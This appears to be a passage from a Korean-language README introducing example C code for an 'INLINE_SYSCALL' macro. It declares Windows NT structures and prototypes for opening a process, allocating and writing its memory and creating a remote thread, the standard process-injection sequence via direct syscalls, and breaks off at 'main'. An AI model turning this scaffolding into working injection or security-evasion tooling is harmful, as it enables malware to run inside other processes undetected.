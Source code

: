 `INLINE_SYSCALL` 매크로를 사용한 예시 코드이다.

```c
#include <Windows.h>
#include "lib/in_memory_init.hpp"

typedef struct _UNICODE_STRING
{
	USHORT Length;
	USHORT MaximumLength;
	PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES
{
	ULONG           Length;
	HANDLE          RootDirectory;
	PUNICODE_STRING ObjectName;
	ULONG           Attributes;
	PVOID           SecurityDescriptor;
	PVOID           SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _CLIENT_ID
{
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef struct _PS_ATTRIBUTE
{
	ULONG  Attribute;
	SIZE_T Size;
	union
	{
		ULONG Value;
		PVOID ValuePtr;
	} u1;
	PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _PS_ATTRIBUTE_LIST
{
	SIZE_T       TotalLength;
	PS_ATTRIBUTE Attributes[1];
} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;

NTSTATUS NtOpenProcess(OUT PHANDLE ProcessHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN PCLIENT_ID ClientId OPTIONAL);

NTSTATUS NtAllocateVirtualMemory(IN HANDLE ProcessHandle, IN OUT PVOID* BaseAddress, IN ULONG ZeroBits, IN OUT PSIZE_T RegionSize, IN ULONG AllocationType, IN ULONG Protect);

NTSTATUS NtWriteVirtualMemory(IN HANDLE ProcessHandle, IN PVOID BaseAddress, IN PVOID Buffer, IN SIZE_T NumberOfBytesToWrite, OUT PSIZE_T NumberOfBytesWritten OPTIONAL);

NTSTATUS NtCreateThreadEx(OUT PHANDLE ThreadHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN HANDLE ProcessHandle, IN PVOID StartRoutine, IN PVOID Argument OPTIONAL, IN ULONG CreateFlags, IN SIZE_T ZeroBits, IN SIZE_T StackSize, IN SIZE_T MaximumStackSize, IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

NTSTATUS NtClose(IN HANDLE Handle);

int main(int argc, char* argv[])
```